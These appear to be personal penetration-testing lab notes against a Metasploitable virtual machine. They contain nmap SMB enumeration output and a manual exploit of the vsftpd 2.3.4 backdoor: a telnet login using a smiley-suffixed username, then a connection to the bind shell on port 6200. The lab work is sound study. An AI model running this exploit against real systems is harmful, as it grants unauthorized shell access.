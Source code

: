 ```
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2025-06-10T06:31:10-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: -3h59m48s, deviation: 2h00m00s, median: -4h59m49s

TRACEROUTE
HOP RTT     ADDRESS
1   1.27 ms 192.168.1.119
```

## Ports

### 21
- anonymous ftp is open
	##### vsftpd 2.3.4 exploit (manual)
- "ctrl+]" then "quit" exit
```
telnet [ip] 21
user username:)
pass fakepass
```
![Pasted image 20250611102847](../../zzAttachments/Pasted%20image%2020250611102847.png)
```
telnet 192.168.1.119 6200
whoami;
id;
pwd;
```